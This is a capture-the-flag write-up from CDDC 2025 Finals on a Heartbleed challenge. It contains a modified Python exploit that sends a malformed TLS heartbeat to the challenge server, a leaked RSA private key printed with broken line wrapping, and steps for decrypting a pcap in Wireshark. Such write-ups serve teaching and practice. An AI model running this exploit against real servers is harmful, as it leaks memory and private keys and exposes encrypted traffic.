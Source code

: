 ```yaml
---
author: "Shun Ren"
title: "[CDDC 2025 Finals] Heartbleed"
date: 2025-06-16T00:00:00+08:00
description: "Heartbleed writeup from CDDC Finals"
tags: ["writeups", "ctf", "cve"]
ShowBreadcrumbs: False
HideSummary: True
hiddenInHomeList: True
---
```




In this challenge, we are given 2 things: 
1. A pcap file, that involves a conversation encrypted over HTTPS
2. Links to some websites (`https://chal2.h4c.cddc2025.xyz`)

Judging from the name itself, this challenge is about heartbleed, a bug in OpenSSL that allowed for the leaking of memory contents, through 1. Supplying a small payload data 2. Specifying a way larger length for that payload

Visiting any of the websites in the links, will bring us to a page that displays a warning about how the server is vulnerable to heartbleed, as such we should try sending a payload to them and see what we get (I don't have any screenshots of it T_T)

Luckily for us, since this is an old CVE, there are many scripts available online which can perform the exploit, such as [this](https://github.com/jknudsen-synopsys/heartbleed-box/blob/main/exploit.py)

Everything is the same, but instead of searching for a username, we modify it to print out the response bytes as a string:
```py
...
    print(r[startIndex:endIndex].decode())
    
    return endIndex

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

server_address = ('chal2.h4c.cddc2025.xyz', 443)
print('[Connecting to {} port {}]'.format(*server_address))
s.connect(server_address)

try:
    s.sendall(tls_hello)     # Send Client Hello
    s.recv(8 * 1024)         # Receive Server Hello, Certificate, Server Hello Done
    s.sendall(tls_heartbeat) # Send badly formed Heartbeat Request
    r = s.recv(64*1024)      # Receive server memory!
    print(r.decode('utf-8', errors='ignore'))

    index = 0
    while index < len(r) and index != -1:
        index = findCredentials(r[index:], "private")
    

finally:
    print('[Closing socket]')
    s.close()
```

Next, we put the result through python to get rid of the newlines:
```py
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAyJM+wrhOqjeV5ko8iMxLARk5dfoLb0f5lQDEv45n66ae6a/X
8ZaJztr7UFmyEJ2tIacW4GnY41eHEWagClyIOD
Rmn4feibrLz4FwXwWx2kGK3KxS
dlNFA57uL4lrXbczR7mgozdC2kF3fO07pGM5//TFPfCND3YtR3TfzM+tawN3+lba
8/PDnWEO8IzUw7zr1KKHnFhZJ6ZCOImes1K0anD5DOo
dJpTgdo5+7MJakMpe6T88
OkKBWTEuzrNXonN5f4uL5he98TT896ykSdiu857p+rIcK46zlIIbz2ZPUm0TLPJq
Dv41LIi9tTAKmOwqc/QZV8UWMjw++zV3/ZgrFwIDAQABAoIB
AQChlBTcElO0xkCo
myc24LSPdv2WL8+kXuwNf+f/lL3c1YZxJOomQapUjI4mBYvv3MXLNWq1cC97vVge
yXilwDMwa+48F91LQMLNMC4RLmo/M8ukx+FKVvxi1VZ1zxNCFMJnx
n9E3NCrOFAE
wKvqWtEvg8SdiDpquT3ysZFU0fyXFm7v8SN3M2l51SbZTO87ahQXjjVzjHDlGZsF
vU+H2s0xkLjiKwMGR2L89w3MrW5N4rlgN6u5/ya7xc8hMMPgwBLwrQwnaM
GN7QAu
umVzf3L37hhvrUPnq9PEoWFC9jdkTVuqG3PFmObgoy1mfpYzczmXNFphpIoD3ROn
G8o3dsA5AoGBAPX2U767sZ+Sm8nakZo3+dicPalH2rwcXulZN2vrUyT5IK2cafR
M
Zg2vReA93tSpmNI453CEPuDH0mbuW7RdpO4mw9QCg43wEzWtTJOfmpp8RD5RQ33G
bF/5zys2lHvFJeD5gOOzBW2m7F8AJiXeEoWR5WQ05hhUHRKpD+7DHOZFAoGBANDC
vX
o4QQ0k6H+9yPPHXR0nF25JYxok6aLIex9ErrL4FKy76rCgS1G90rvEt7QHkd9g
z3LU2qKzpk7Z/t4pW2/OVoe92YNXBMMKENUdmq2PYp784QgWec8hARr3IlYmm5eV
0/WAbYA
4bg64eMVaKQBvEeK4ndVN5jDQoRIuSB+rAoGBALxTs6OjC0nnc6mG1V2D
5qXYW8412mGWR4XcbfcP5EW3CzJjRS1tIebwgUxFk0y53u137J3WZF6wIYX2k/jy
ispenCrFEf2o
CM1ct/mAh1wqMgaVKlwvheOm3t1zmRV7ypkL8YhnFozy9qF2976e
3weuwjmL13JhVTFoiW6DrqkRAoGBAICG9RszWTGbgJ1tHjSgkL5rG+zlt+MXyNRU
9CC7K4e6Xxg+Fe8qs
VShNwYtxiBL7M6HjxEW5Yj4bDLt2hGzir0aX4HxK+LGB4OB
Rf2/3URwG/rgnDdbhyE0I7cTYouB95drQnVK3Z/sni3n+0seCFJhD7TzjxENheSV
/iTwY61DAoGAVfBF+/rc6o
0DNX27ENOQ6vVfLtHzvn1mMqgvL6t56h2idzTC/BuR
EJtSFvU/tmb+sEuv5GHxApHH8DWMuLBtupmmb4Rp60AFbgVQw2a/z3Irmb9rpaN1
Wze0YBlExVziaVLn7HIwIQZdke0
cct5Y5DzS+q0w8Ei7SfWP0P+k9AM=
-----END RSA PRIVATE KEY----
```
Save this key into a file, with a `.key` extension, e.g. `server.key`, this key will be used to decrypt the TLS sections of the pcap file we are given

Next, add the key to wireshark by navigating to `Edit -> Preferences -> Protocols -> TLS -> RSA keys list -> Edit`, you can just add it as a key file, and leave the other fields blank:
![alt text](/images/cddc-25-heartbleed/image.png)

After saving the settings, we can now see that the sections have been changed to `HTTP`, and there was a request for `flag.html`, we can export this file using `Export Objects`:
![alt text](/images/cddc-25-heartbleed/image-2.png)
